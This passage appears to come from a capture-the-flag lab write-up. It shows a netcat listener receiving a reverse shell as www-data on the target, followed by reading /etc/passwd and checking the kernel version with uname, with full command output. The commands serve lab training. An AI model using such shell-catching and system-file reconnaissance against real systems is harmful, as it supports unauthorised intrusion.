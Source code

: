 Caught the shell with netcat.
```
└─$ nc -nvlp 4455           
listening on [any] 4455 ...
connect to [10.2.73.217] from (UNKNOWN) [10.10.251.234] 58026
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 21:13:57 up 52 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
www-data has nearly no permissions, but he can read **/etc/passwd**
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
Linux Kernel
```
$ uname -a
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
